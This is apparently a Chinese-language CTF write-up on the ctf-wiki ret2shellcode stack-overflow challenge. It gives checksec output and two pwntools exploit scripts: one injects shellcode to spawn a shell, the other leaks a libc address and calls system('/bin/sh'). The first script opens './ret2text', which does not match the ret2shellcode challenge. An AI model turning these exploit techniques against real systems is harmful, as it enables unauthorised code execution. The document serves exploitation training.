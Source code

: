 #### [ret2shellcode](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/basic-rop/#ret2shellcode)

首先checksec结果如下：

```
[*] '/home/kody/Desktop/pwn/temp/ret2shellcode'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x8048000)
    Stack:    Executable
    RWX:      Has RWX segments
```

可以看到栈可是可执行的，而且还存在可写段。

```
#!/usr/bin/env python

from pwn import *

# 0x0804A080 buf2
sh = process('./ret2text')
file = ELF('./ret2text')
buf2 = 0x0804A080

shellcode = asm(shellcraft.sh())
payload = flat([shellcode.ljust(112, b'A'), buf2])

sh.sendline(payload)
sh.interactive()
```

由于[ctf-wiki中题目ret2shellcode的问题)](https://distiny-cool.github.io/2023/09/26/ctfwiki中题目ret2shellcode的问题/)，只能在Ubuntu16上进行测试，成功得到shell。

在高版本的linux中，可以使用类似于ret2libc3的方法得到shell

```python
#!/usr/bin/env python
from pwn import *
from LibcSearcher import LibcSearcher

sh = process('./ret2shellcode')
file = ELF('./ret2shellcode')
gdb.attach(sh)

main = file.symbols['main']
got_libc_start_main = file.got['__libc_start_main']
plt_puts = file.plt['puts']

payload = flat(['A'*0x6c,0xdeadbeef,plt_puts,main,got_libc_start_main])
# sh.sendlineafter('No system for you this time !!!\n',payload)
sh.sendline(payload) #因为后面使用了recvuntil，所以这里也可以直接用sendline
sh.recvuntil('bye bye ~')   # 跳过前面的输出
libc_start_main_addr = u32(sh.recv()[0:4])
print('get __start_main address in libc:',hex((libc_start_main_addr)))

libc = LibcSearcher('__libc_start_main',libc_start_main_addr)
libc_base = libc_start_main_addr - libc.dump('__libc_start_main')
system_addr = libc_base + libc.dump('system')
binsh_addr = libc_base + libc.dump('str_bin_sh')

payload = flat(['A'*0x64,0xdeadbeef,system_addr,0xdeadbeef,binsh_addr])
sh.sendline(payload)
```